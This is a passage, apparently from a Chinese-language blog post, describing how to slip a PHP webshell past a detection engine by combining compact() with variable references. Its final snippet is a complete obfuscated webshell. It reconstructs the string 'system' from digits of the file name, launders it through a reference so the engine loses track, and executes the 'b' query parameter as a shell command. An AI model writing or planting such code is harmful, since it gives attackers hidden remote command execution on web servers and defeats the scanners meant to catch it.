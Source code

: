 这两种绕过方式，我只在5.4版本的php下成功，5.5，5.6，7.1均失败。

[compact + 变量引用](#toc_compact)
------------------------------

compact创建一个包含变量名和它们的值的数组。举例。

`<?php
$firstname  =  "Bill";
$lastname  =  "Gates";
$age  =  "60";

$result  =  compact("firstname",  "lastname",  "age");

print_r($result);

//  输出
Array
(
  [firstname]  =>  Bill
  [lastname]  =>  Gates
  [age]  =>  60
)` 

于是我想到了先声明一个变量，并将值初始化为'system'，然后利用compact转换为数组，通过访问数组元素来获取system。但是这个方法行不通，绕不过引擎。

突然我想到了一个变量引用的技巧。当变量c变化时，数组a中key为'two'的元素也会跟着变化。

`$c = "222";
$a = array( "one"=>$c,"two"=>&$c );` 

既然compact可以将变量转换为数组，那变量引用是否对其有效呢？答案是无效的。

`$e = '111';
$city  = &$e;
$event = 'aaaa';

$result = compact("event", 'city');
$e = 'dddd';` 

虽然变量city引用了变量e，但是经过compact转换后，修改变量e是不会修改result中的city值。

在之前的测试中，已经确认数组使用变量引用的方法绕不过引擎，那么compact是否可以误导引擎认为我使用了变量引用呢？

我的思路是，将变量city引用变量e，然后使用compact将变量city转换为数组。在调用compact后，我将变量e进行修改为'dddd'。如果引擎对变量e进行跟踪，那么它会跟踪到变量e被赋值为'dddd'，这样一来，就会让引擎误以为result数组中city值为'dddd'，从而绕过引擎。

`<?php 
function fun($a){
    $s = ['a','t','s', 'y', 'm', 'e', '/'];
    $tmp = "";
    while ($a>10) {
        $tmp .= $s[$a%10];
        $a = $a/10;
    }
    return $tmp.$s[$a];
}
$e = fun(intval(substr(__FILE__,-10,6)));

$city  = &$e;
$event = 'aaaa';

$result = compact("event", "city");
$e = 'dddd';

$f = $result['city'];
$f($_GET['b']);`
